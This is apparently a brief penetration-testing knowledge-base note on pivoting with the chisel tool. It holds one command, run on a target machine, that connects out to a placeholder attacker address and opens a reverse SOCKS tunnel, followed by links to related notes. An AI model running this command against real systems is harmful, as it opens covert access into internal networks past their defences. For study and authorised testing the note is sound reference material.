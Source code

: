 # tunneling through chisel Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

# Related

- [20221003150110](/zet/20221003150110/README.md) tunneling through chisel
- ~/kb/networking/port-forwarding.md

Tags:

    #assorted #networking #port
